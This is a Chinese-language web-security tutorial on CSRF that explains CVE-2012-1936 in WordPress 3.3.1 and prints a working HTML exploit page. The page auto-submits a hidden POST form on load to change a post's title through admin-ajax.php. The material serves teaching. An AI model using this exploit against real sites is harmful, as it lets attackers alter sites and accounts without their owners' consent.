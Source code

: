 # Exploits

本部分我们来看几个基于 CSRF 攻击的实例，包括[简单的基于表单 POST 请求的攻击](http://www.exploit-db.com/exploits/18791/)，其可以诱导用户点击`.submit()` 按钮既可以发起攻击。其他的还有稍微复杂一点的[跨域文件上传 CSRF 攻击](http://www.exploit-db.com/exploits/18766/)，其主要使用了 [CORS use of the xhr.withCredentals behavior](http://blog.kotowicz.net/2011/05/cross-domain-arbitrary-file-upload.html)。

## [Wordpress 3.3.1 Multiple CSRF Vulnerabilities](https://www.exploit-db.com/exploits/18791/)

该漏洞是由[Ivano Binetti](http://www.ivanobinetti.com)在 2012 年 3 月 19 号发现的，影响了[WordPress 3.3.1 版本 ](http://wordpress.org/wordpress-3.3.1.zip)，CVE 编号 CVE-2012-1936。WordPress 是众所周知的博客平台，该漏洞可以允许攻击者修改某个 Post 的标题，添加管理权限用户以及操作用户账户，包括但不限于删除评论、修改头像等等。具体的列表如下

- Add Admin/User
- Delete Admin/User
- Approve comment
- Unapprove comment
- Delete comment
- Change background image
- Insert custom header image
- Change site title
- Change administrator's email
- Change Wordpress Address
- Change Site Address

那么这个漏洞实际上就是攻击者引导用户先进入目标的 WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，核心的 Exploit 代码为

```html
<html>
  <body onload="javascript:document.forms[0].submit()">
    <h2>CSRF Exploit to change post title</h2>
    <form
      method="POST"
      name="form0"
      action="http://<wordpress_ip>:80/wp-admin/admin-ajax.php"
    >
      <input type="hidden" name="post_title" value="hackedtitle" />
      <input type="hidden" name="post_name" value="hackedtitle" />
      <input type="hidden" name="mm" value="03" />
      <input type="hidden" name="jj" value="16" />
      <input type="hidden" name="aa" value="2012" />
      <input type="hidden" name="hh" value="" />
      <input type="hidden" name="mn" value="" />
      <input type="hidden" name="ss" value="" />
      <input type="hidden" name="post_author" value="1" />
      <input type="hidden" name="post_password" value="" />
      <input type="hidden" name="post_category%5B%5D" value="0" />
      <input type="hidden" name="post_category%5B%5D" value="1" />
      <input type="hidden" name="tax_input%5Bpost_tag%5D" value="" />
      <input type="hidden" name="comment_status" value="open" />
      <input type="hidden" name="ping_status" value="open" />
      <input type="hidden" name="_status" value="publish" />
      <input type="hidden" name="post_format" value="0" />
      <input type="hidden" name="_inline_edit" value="<sniffed_value>" />
      <input type="hidden" name="post_view" value="list" />
      <input type="hidden" name="screen" value="edit-post" />
      <input type="hidden" name="action" value="inline-save" />
      <input type="hidden" name="post_type" value="post" />
      <input type="hidden" name="post_ID" value="1" />
      <input type="hidden" name="edit_date" value="true" />
      <input type="hidden" name="post_status" value="all" />
    </form>
  </body>
```